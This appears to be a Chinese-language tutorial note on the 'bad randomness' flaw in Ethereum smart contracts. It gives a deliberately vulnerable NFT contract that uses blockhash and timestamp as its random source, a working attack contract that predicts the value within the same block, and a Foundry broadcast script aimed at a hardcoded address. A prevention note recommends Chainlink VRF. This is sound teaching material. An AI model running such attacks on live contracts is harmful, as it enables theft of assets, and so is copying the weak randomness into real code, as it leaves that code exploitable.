

# 坏随机数（Bad Randomness）

# 伪随机数

<font style="color:rgb(44, 62, 80);">很多以太坊上的应用都需要用到随机数，例如</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">NFT</font></code><font style="color:rgb(44, 62, 80);">随机抽取</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">tokenId</font></code><font style="color:rgb(44, 62, 80);">、抽盲盒、</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">gamefi</font></code><font style="color:rgb(44, 62, 80);">战斗中随机分胜负等等。但是由于以太坊上所有数据都是公开透明（</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">public</font></code><font style="color:rgb(44, 62, 80);">）且确定性（</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">deterministic</font></code><font style="color:rgb(44, 62, 80);">）的，它没有其他编程语言一样给开发者提供生成随机数的方法，例如</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">random()</font></code><font style="color:rgb(44, 62, 80);">。很多项目方不得不使用链上的伪随机数生成方法，例如 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">blockhash()</font></code><font style="color:rgb(44, 62, 80);"> 和 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">keccak256()</font></code><font style="color:rgb(44, 62, 80);"> 方法。</font>

# <font style="color:rgb(44, 62, 80);">坏随机数漏洞</font>

<font style="color:rgb(44, 62, 80);">攻击者可以事先计算这些伪随机数的结果，从而达到他们想要的目的，例如铸造任何他们想要的稀有</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">NFT</font></code><font style="color:rgb(44, 62, 80);">而非随机抽取。</font>

# <font style="color:rgb(44, 62, 80);">案例</font>

<font style="color:rgb(44, 62, 80);">下面我们学习一个有坏随机数漏洞的 NFT 合约： BadRandomness.sol。</font>

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", "") {}

    // 铸造函数：当输入的 luckyNumber 等于随机数时才能mint
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        ) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}

```

<font style="color:rgb(44, 62, 80);">它有一个主要的铸造函数 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">luckyMint()</font></code><font style="color:rgb(44, 62, 80);">，用户调用时输入一个 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">0-99</font></code><font style="color:rgb(44, 62, 80);"> 的数字，如果和链上生成的伪随机数 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">randomNumber</font></code><font style="color:rgb(44, 62, 80);"> 相等，即可铸造幸运 NFT。伪随机数使用 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">blockhash</font></code><font style="color:rgb(44, 62, 80);"> 和 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">block.timestamp</font></code><font style="color:rgb(44, 62, 80);"> 声称。这个漏洞在于用户可以完美预测生成的随机数并铸造NFT。</font>

## <font style="color:rgb(44, 62, 80);">攻击合约</font>

<font style="color:rgb(44, 62, 80);">下面我们写个攻击合约</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">Attack.sol</font></code><font style="color:rgb(44, 62, 80);">。</font>

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {BadRandomness} from "./badrandom.sol";

contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // 提前计算随机数
        uint256 luckyNumber = uint256(
            keccak256(
                abi.encodePacked(blockhash(block.number - 1), block.timestamp)
            )
        ) % 100;
        // 利用 luckyNumber 攻击
        nftAddr.luckyMint(luckyNumber);
    }
}

```

<font style="color:rgb(44, 62, 80);">攻击函数 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">attackMint()</font></code><font style="color:rgb(44, 62, 80);">中的参数为 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">BadRandomness</font></code><font style="color:rgb(44, 62, 80);">合约地址。在其中，我们计算了随机数 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">luckyNumber</font></code><font style="color:rgb(44, 62, 80);">，然后将它作为参数输入到 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">luckyMint()</font></code><font style="color:rgb(44, 62, 80);"> 函数完成攻击。</font>**<font style="color:rgb(44, 62, 80);">由于</font>**<code>**<font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">attackMint()</font>**</code>**<font style="color:rgb(44, 62, 80);">和</font>**<code>**<font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">luckyMint()</font>**</code>**<font style="color:rgb(44, 62, 80);">将在同一个区块中调用，</font>**<code>**<font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">blockhash</font>**</code>**<font style="color:rgb(44, 62, 80);">和</font>**<code>**<font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">block.timestamp</font>**</code>**<font style="color:rgb(44, 62, 80);">是相同的，利用他们生成的随机数也相同。</font>**

## <font style="color:rgb(44, 62, 80);">预防方法</font>

<font style="color:rgb(44, 62, 80);">我们通常使用预言机项目提供的链下随机数来预防这类漏洞，例如 Chainlink VRF。这类随机数从链下生成，然后上传到链上，从而保证随机数不可预测</font>

# <font style="color:rgb(44, 62, 80);">实现</font>

1. <font style="color:rgb(31, 35, 40);">部署</font><font style="color:rgb(31, 35, 40);"> </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">BadRandomness</font></code><font style="color:rgb(31, 35, 40);"> </font><font style="color:rgb(31, 35, 40);">合约。</font>
2. <font style="color:rgb(31, 35, 40);">部署</font><font style="color:rgb(31, 35, 40);"> </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">Attack</font></code><font style="color:rgb(31, 35, 40);"> </font><font style="color:rgb(31, 35, 40);">合约。</font>
3. <font style="color:rgb(31, 35, 40);">将</font><font style="color:rgb(31, 35, 40);"> </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">BadRandomness</font></code><font style="color:rgb(31, 35, 40);"> </font><font style="color:rgb(31, 35, 40);">合约地址作为参数传入到</font><font style="color:rgb(31, 35, 40);"> </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">Attack</font></code><font style="color:rgb(31, 35, 40);"> </font><font style="color:rgb(31, 35, 40);">合约的</font><font style="color:rgb(31, 35, 40);"> </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">attackMint()</font></code><font style="color:rgb(31, 35, 40);"> </font><font style="color:rgb(31, 35, 40);">函数并调用，完成攻击。</font>
4. <font style="color:rgb(31, 35, 40);">调用 </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">BadRandomness</font></code><font style="color:rgb(31, 35, 40);"> 合约的 </font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">balanceOf</font></code><font style="color:rgb(31, 35, 40);"> 查看</font><code><font style="color:rgb(31, 35, 40);background-color:rgba(129, 139, 152, 0.12);">Attack</font></code><font style="color:rgb(31, 35, 40);"> 合约NFT余额，确认攻击成功。</font>

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {Attack} from "../src/Attack.sol";
import {BadRandomness} from "../src/badrandom.sol";

contract Attacksc is Script {
    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack();
        attack.attackMint(
            BadRandomness(0x700b6A60ce7EaaEA56F065753d8dcB9653dbAD35)
        );
        vm.stopBroadcast();
    }
}

```



o如k


> 更新: 2025-07-29 20:52:33  
> 原文: <https://www.yuque.com/xiaoyuhushenfu/yzin4n/dz70xy3przi4xqac>